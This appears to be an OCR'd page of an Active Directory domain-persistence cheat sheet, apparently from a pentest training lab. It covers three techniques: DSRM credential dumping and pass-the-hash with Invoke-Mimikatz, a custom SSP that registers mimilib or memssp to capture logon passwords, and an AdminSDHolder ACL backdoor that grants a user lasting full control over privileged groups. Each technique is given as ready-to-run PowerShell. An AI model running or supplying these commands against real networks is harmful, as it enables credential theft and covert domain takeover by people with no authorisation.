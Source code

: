 ## DSRM
>Directory Services Restore Mode (DSRM) is a special boot mode for Windows Server domain controllers that allows administrators to perform maintenance tasks on the Active Directory database. This mode is primarily used for restoring or repairing the database when it becomes corrupted or encounters issues. DSRM is essential for tasks such as Active Directory restoration, password recovery, database repair, authoritative restore, system state recovery, and troubleshooting or diagnostics. By using DSRM, administrators can ensure the health and integrity of the Active Directory environment, enabling robust disaster recovery and maintenance capabilities.
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DCs Name>

Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:<hash> /run:powershell.exe"'
```

## Custom SSP
>Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authentication connection. Some SSP Packages are: NTLM, Kerberos, Wdigest, CredSSP.
```powershell
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'

#Append mimilib:
$packages += "mimilib"

#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages

#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```

## AdminSDHolder
>Active Directory Domain Services (AD DS) use the AdminSDHolder object and the Security Descriptor propagator (SDProp) process to secure privileged users and groups. The AdminSDHolder object has a unique Access Control List (ACL), which controls the permissions of security principals that are members of built-in privileged Active Directory groups. The SDProp is a process that runs every 60 minutes on the Primary Domain Controller emulator to ensure the AdminSDHolder Access Control List (ACL) is consistent on all privileged users and groups.
```powershell
# Check
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}

# Add fullcontrol permission
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All

# Run SDProp
Invoke-SDPropagator -showProgress -timeoutMinutes 1

# Check permission
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'username'}
```
